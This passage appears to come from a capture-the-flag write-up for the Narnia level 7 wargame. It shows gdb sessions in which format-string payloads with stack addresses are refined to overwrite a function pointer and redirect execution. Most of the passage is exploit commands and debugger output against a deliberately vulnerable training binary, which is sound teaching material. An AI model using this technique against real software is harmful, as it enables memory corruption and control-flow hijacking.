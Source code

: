 ```
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd660:	0xffffd680	0x00000080	0xffffd8f6	0x08048238
0xffffd670:	0xffffd6d8	0xf7ffda94	0x00000000	0x080486e0[1]
0xffffd680:	0x41414141	0x41414141	0xffffd68c	0x00000018[2]
0xffffd690:	0xffffd68e	0xffffd68f	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
```
We see that a longer input modifies the stack location, so we'll have to account for this.
```
(gdb) run $(python -c 'print "A" * 8 + "\x7c\xd6\xff\xff" + "\x7d\xd6\xff\xff" + "\x7e\xd6\xff\xff" + "\x7f\xd6\xff\xff" + "%8$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
[snip]
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd660:	0xffffd680	0x00000080	0xffffd8f6	0x08048238
0xffffd670:	0xffffd6d8	0xf7ffda94	0x00000000	0x00000018[1]
0xffffd680:	0x41414141	0x41414141	0xffffd67c	0xffffd67d
0xffffd690:	0xffffd67e	0xffffd67f	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) cont
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000018 in ?? ()
(gdb) 
```
We have successfully overwritten `ptrf`. 
```
(gdb) run $(python -c 'print "A" * 8 + "\x7c\xd6\xff\xff" + "\x7d\xd6\xff\xff" + "\x7e\xd6\xff\xff" + "\x7f\xd6\xff\xff" + "%8$n" + "%9$n" + "%10$n" + "%11$n"')
The program being debugged has been started already.
[snip]
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd650:	0xffffd670	0x00000080	0xffffd8e8	0x08048238
0xffffd660:	0xffffd6c8	0xf7ffda94	0x00000000	0x080486e0[1]
0xffffd670:	0x41414141	0x41414141	0xffffd67c	0x18181818[2]
0xffffd680:	0xff000000	0xffffd67f	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
```
We increased the buffer, so our stack location is modified again.
```
(gdb) run $(python -c 'print "A" * 8 + "\x6c\xd6\xff\xff" + "\x6d\xd6\xff\xff" + "\x6e\xd6\xff\xff" + "\x6f\xd6\xff\xff" + "%8$n" + "%9$n" + "%10$n" + "%11$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia7 $(python -c 'print "A" * 8 + "\x6c\xd6\xff\xff" + "\x6d\xd6\xff\xff" + "\x6e\xd6\xff\xff" + "\x6f\xd6\xff\xff" + "%8$n" + "%9$n" + "%10$n" + "%11$n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd66c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd650:	0xffffd670	0x00000080	0xffffd8e8	0x08048238
0xffffd660:	0xffffd6c8	0xf7ffda94	0x00000000	0x18181818[1]
0xffffd670:	0x41000000	0x41414141	0xffffd66c	0xffffd66d
0xffffd680:	0xffffd66e	0xffffd66f	0x00000000	0x00000000
```